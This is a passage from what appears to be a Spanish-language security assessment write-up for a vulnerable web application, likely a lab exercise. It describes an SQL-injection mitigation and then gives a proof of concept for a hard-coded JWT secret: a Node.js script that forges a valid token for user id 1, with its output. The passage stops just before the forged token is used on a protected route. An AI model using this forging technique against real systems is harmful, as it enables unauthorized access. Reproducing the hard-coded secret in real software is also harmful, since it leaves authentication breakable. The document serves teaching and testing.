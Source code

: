 **Explicación:**

- Ahora, aunque se intente inyectar código SQL en el parámetro `operator`, la consulta solo acepta operadores válidos y filtra correctamente por estado.
- La vulnerabilidad queda mitigada y el sistema responde únicamente con las facturas que cumplen el filtro legítimo.

**Evidencia:**

![Mitigación SQLi](evidencias/sqli_mitigacion.jpeg)

## 2. Credenciales Embedidas (Hard Coded Credentials)

### Prueba de Concepto (PoC)

**Paso 1:** Acceder al código fuente y localizar el secreto JWT embebido:

```js
jwt.sign({ id: userId }, "secreto_super_seguro", { expiresIn: "1h" });
```

**Paso 2:** Generar un token JWT válido manualmente usando Node.js:

Crear un archivo `jwt_poc.js` con el siguiente contenido:

```js
const jwt = require("jsonwebtoken");
const token = jwt.sign({ id: 1 }, "secreto_super_seguro", { expiresIn: "1h" });
console.log(token);
```

Instalar la librería:

```sh
npm install jsonwebtoken
```

Ejecutar el script:

```sh
node jwt_poc.js
```

**Token generado:**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzU4NjQ2MjI2LCJleHAiOjE3NTg2NDk4MjZ9.s7YWKpQKKbTFBboFc5v7Dj-FKRnsLK7Ahl5HFEkYvhw
```

**Paso 3:** Usar el token generado para acceder a una ruta protegida:
